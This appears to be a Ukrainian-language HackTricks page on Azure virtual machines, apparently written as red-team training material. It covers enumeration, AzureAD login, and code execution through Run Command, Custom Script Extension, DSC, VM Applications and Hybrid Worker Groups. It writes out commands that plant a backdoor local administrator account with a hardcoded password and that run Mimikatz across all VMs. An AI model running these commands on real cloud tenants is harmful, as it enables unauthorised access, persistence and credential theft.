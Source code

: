 # Az - Віртуальні машини та мережа

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримка HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

## Основна інформація

[З документації:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Віртуальні машини Azure є одним з кількох типів [ресурсів обчислення за запитом, що масштабується](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree), які пропонує Azure. Зазвичай ви обираєте віртуальну машину, коли вам потрібен більший контроль над обчислювальним середовищем, ніж пропонують інші варіанти. Ця стаття надає інформацію про те, що слід врахувати перед створенням віртуальної машини, як її створити та як нею керувати.

## Інформація про мережу Azure

Мережі Azure містять **різні сутності та способи їх налаштування.** Ви можете знайти короткі **описи,** **приклади** та **команди перерахування** різних сутностей мережі Azure в:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** пропонує безпечне, повністю кероване рішення для доступу RDP (протокол віддаленого робочого столу) та SSH (захищена оболонка) через SSL через портал Azure. Він інтегрований у віртуальну мережу Azure, що дозволяє підключення RDP та SSH до ВМ, використовуючи приватні IP-адреси, уникаючи необхідності в публічних IP-адресах. Це робить його більш безпечним і зручним альтернативним варіантом традиційних методів, що включають призначення публічних IP-адрес і налаштування правил NSG для доступу до ВМ. Розробники та IT-персонал можуть безпечно отримувати доступ до ВМ з порталу Azure, використовуючи свої веб-браузери, спрощуючи процес для середовищ розробки та тестування.

Щоб перерахувати всі хости Azure Bastion у вашій підписці, ви можете використовувати наступну команду:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Перерахунок ВМ
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Запуск команд у VM**

### **AAD вхід у VM**

Можливо дозволити доступ користувачам, автентифікованим через AzureAD. Наприклад, намагаючись отримати доступ до **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (важливо **використовувати електронну пошту** з azurecorp, коли намагаєтеся увійти) ви можете отримати помилку, як: 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Просто **дотримуйтесь цих інструкцій**, перейшовши на [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) та вказавши код, використовуйте електронну пошту та пароль як облікові дані, і ви зможете підключитися через SSH (якщо у цього користувача достатньо прав для цього: роль `Virtual Machine Administrator Login` або `Virtual Machine User Login`).

### **Запустити команду**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Запустіть розширення користувацького скрипта**

Azure віртуальні машини (VM) розширення - це **невеликі програми**, які забезпечують конфігурацію після розгортання та автоматизацію **завдань** на **Azure VMs**. Наприклад, якщо віртуальна машина потребує встановлення програмного забезпечення, антивірусного захисту або можливості виконувати скрипт всередині, ви можете використовувати розширення VM.

Отже, якщо у вас є доступ для запису, ви можете виконувати довільний код:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) - це інструмент PowerShell, подібний до Ansible, який використовується для налаштування хоста через код. DSC інтегрується з Azure, дозволяючи завантаження специфічних конфігураційних файлів. Ці файли повинні відповідати строгому синтаксису. Зокрема, розширення DSC в Azure може виконувати команди з файлів, які відповідають певним критеріям форматування, навіть якщо синтаксис не є правильним за стандартами DSC, як показано на наданій фігурі.

Виконання цих команд полегшується функцією [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) в Az PowerShell. Вимоги включають файл **.PS1** з визначеною функцією, і файл повинен бути стиснутий у файл **.zip**. Навіть якщо синтаксис може бути неточним для DSC, код все ще буде виконуватись. Однак розширення позначить статус виконання як "невдача", і жоден вихід з команди не буде видимим через те, що статус буде перезаписаний повідомленням про невдачу.

### VM Application Definitions

VM Application Definitions дозволяють повторюване розгортання версійованих додатків на Azure VM. Цей ресурс підтримує розгортання та оновлення додатків на VMs. Щоб це налаштувати, потрібно виконати кілька кроків, що включають команди **`New-AzGalleryApplication`** та **`New-AzGalleryApplicationVersion`** в Az PowerShell.

Виконання додатків або команд через цей метод передбачає **"VMAppExtension"**, яка автоматично встановлюється, коли додаток застосовується до VM. Розширення отримує файл з вказаного URI і називає його точно так, як додаток, без розширення. Щоб правильно виконати файл, поле "ManageActions" у виклику REST API повинно бути налаштоване для перейменування файлу з відповідним розширенням. Налаштування цього методу, після завершення, буде нагадувати структуру, показану на наданій фігурі.

Однак цей метод виконання є відносно повільним, займаючи близько 3-4 хвилин для виконання додатка або команди. Файли, пов'язані з цим процесом, зберігаються в специфічних каталогах (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` для копії додатка та `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` для статусу виконання).

Обидві техніки надають унікальні способи виконання команд і розгортання додатків в Azure середовищах, кожна з яких має свій набір вимог, кроків і міркувань.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) - це функція в Azure, яка дозволяє Runbooks, налаштованим в обліковому записі автоматизації, виконуватись на Azure Virtual Machine (VM), яка є частиною призначеної HWG. Це виконання полегшується через розширення, встановлене на VM, яке розгортає код Runbook на VM. Значним аспектом цього процесу є те, що фактичні облікові дані не є фактором у виконанні, оскільки код виконується з підвищеними привілеями, зокрема як **SYSTEM** або root, як ілюструється на наданій фігурі.

Ключовою деталлю для тих, хто використовує Windows 10 VMs, є необхідність вказати версію PowerShell для Runbook. Вона повинна бути налаштована на виконання як PowerShell Version 5.1 замість 7.1. Ця вимога виникає з того, що PowerShell 7.1 не встановлений за замовчуванням на цих VMs, що призводить до невдачі виконання скрипту, якщо вказана версія 7.1.

Ця функція Azure пропонує надійний метод для автоматизації та управління завданнями в гібридних середовищах, дозволяючи централізоване управління та виконання завдань на Azure VMs.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
